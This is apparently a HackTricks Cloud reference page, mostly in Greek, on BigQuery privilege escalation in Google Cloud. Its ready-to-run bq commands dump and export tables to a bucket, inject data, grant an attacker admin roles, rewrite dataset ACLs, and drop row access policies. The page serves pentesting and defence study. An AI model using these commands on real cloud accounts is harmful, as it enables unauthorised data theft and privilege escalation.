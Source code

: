 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Για περισσότερες πληροφορίες σχετικά με το BigQuery, ελέγξτε:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Διαβάζοντας τις πληροφορίες που είναι αποθηκευμένες μέσα σε έναν πίνακα BigQuery, μπορεί να είναι δυνατό να βρείτε **ευαίσθητες πληροφορίες**. Για να αποκτήσετε πρόσβαση στις πληροφορίες, οι άδειες που απαιτούνται είναι **`bigquery.tables.get`**, **`bigquery.jobs.create`** και **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

Αυτή είναι μια άλλη μέθοδος για να αποκτήσετε πρόσβαση στα δεδομένα. **Εξάγετε το σε ένα cloud storage bucket** και **κατεβάστε τα αρχεία** με τις πληροφορίες.\
Για να εκτελέσετε αυτήν την ενέργεια απαιτούνται οι εξής άδειες: **`bigquery.tables.export`**, **`bigquery.jobs.create`** και **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Εισαγωγή δεδομένων

Ενδέχεται να είναι δυνατό να **εισαγάγετε ορισμένα αξιόπιστα δεδομένα** σε έναν πίνακα Bigquery για να εκμεταλλευτείτε μια **ευπάθεια σε κάποιο άλλο σημείο.** Αυτό μπορεί να γίνει εύκολα με τα δικαιώματα **`bigquery.tables.get`** , **`bigquery.tables.updateData`** και **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε ένα σύνολο δεδομένων BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Αυτή η άδεια επιτρέπει να **ενημερώσετε την πρόσβασή σας σε ένα BigQuery dataset τροποποιώντας τα ACLs** που υποδεικνύουν ποιος μπορεί να έχει πρόσβαση σε αυτό:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε έναν πίνακα BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Σύμφωνα με τα έγγραφα, με τις αναφερόμενες άδειες είναι δυνατόν να **ενημερώσετε μια πολιτική γραμμής.**\
Ωστόσο, **χρησιμοποιώντας το cli `bq`** χρειάζεστε μερικά ακόμα: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Είναι δυνατόν να βρείτε το ID φίλτρου στην έξοδο της καταμέτρησης πολιτικών γραμμής. Παράδειγμα:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Αν έχετε **`bigquery.rowAccessPolicies.delete`** αντί για `bigquery.rowAccessPolicies.update`, μπορείτε επίσης απλά να διαγράψετε την πολιτική:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Μια άλλη πιθανή επιλογή για να παρακάμψετε τις πολιτικές πρόσβασης σε γραμμές θα ήταν να αλλάξετε απλώς την τιμή των περιορισμένων δεδομένων. Εάν μπορείτε να δείτε μόνο όταν το `term` είναι `Cfba`, απλώς τροποποιήστε όλα τα αρχεία του πίνακα ώστε να έχουν `term = "Cfba"`. Ωστόσο, αυτό αποτρέπεται από το bigquery.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
